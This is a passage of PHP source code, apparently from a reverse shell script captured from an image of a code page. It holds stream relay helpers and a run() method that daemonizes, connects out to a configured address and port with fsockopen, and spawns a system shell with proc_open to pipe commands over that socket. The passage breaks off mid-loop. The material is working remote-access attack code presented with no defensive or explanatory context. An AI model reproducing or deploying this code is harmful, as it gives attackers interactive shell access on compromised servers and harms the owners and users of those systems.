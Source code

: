 ```shell
        if (($data = @fread($stream, $buffer)) === false) { // suppress an error when reading from a closed blocking stream
            $this->error = true;                            // set the global error flag
            echo "STRM_ERROR: Cannot read from {$name}, script will now exit...\n";
        }
        return $data;
    }
    private function write($stream, $name, $data) {
        if (($bytes = @fwrite($stream, $data)) === false) { // suppress an error when writing to a closed blocking stream
            $this->error = true;                            // set the global error flag
            echo "STRM_ERROR: Cannot write to {$name}, script will now exit...\n";
        }
        return $bytes;
    }
    // read/write method for non-blocking streams
    private function rw($input, $output, $iname, $oname) {
        while (($data = $this->read($input, $iname, $this->buffer)) && $this->write($output, $oname, $data)) {
            if ($this->os === 'WINDOWS' && $oname === 'STDIN') { $this->clen += strlen($data); } // calculate the command length
            $this->dump($data); // script's dump
        }
    }
    // read/write method for blocking streams (e.g. for STDOUT and STDERR on Windows OS)
    // we must read the exact byte length from a stream and not a single byte more
    private function brw($input, $output, $iname, $oname) {
        $size = fstat($input)['size'];
        if ($this->os === 'WINDOWS' && $iname === 'STDOUT' && $this->clen) {
            // for some reason Windows OS pipes STDIN into STDOUT
            // we do not like that
            // so we need to discard the data from the stream
            while ($this->clen > 0 && ($bytes = $this->clen >= $this->buffer ? $this->buffer : $this->clen) && $this->read($input, $iname, $bytes)) {
                $this->clen -= $bytes;
                $size -= $bytes;
            }
        }
        while ($size > 0 && ($bytes = $size >= $this->buffer ? $this->buffer : $size) && ($data = $this->read($input, $iname, $bytes)) && $this->write($output, $oname, $data)) {
            $size -= $bytes;
            $this->dump($data); // script's dump
        }
    }
    public function run() {
        if ($this->detect() && !$this->daemonize()) {
            $this->settings();

            // ----- SOCKET BEGIN -----
            $socket = @fsockopen($this->addr, $this->port, $errno, $errstr, 30);
            if (!$socket) {
                echo "SOC_ERROR: {$errno}: {$errstr}\n";
            } else {
                stream_set_blocking($socket, false); // set the socket stream to non-blocking mode | returns 'true' on Windows OS

                // ----- SHELL BEGIN -----
                $process = @proc_open($this->shell, $this->descriptorspec, $pipes, null, null);
                if (!$process) {
                    echo "PROC_ERROR: Cannot start the shell\n";
                } else {
                    foreach ($pipes as $pipe) {
```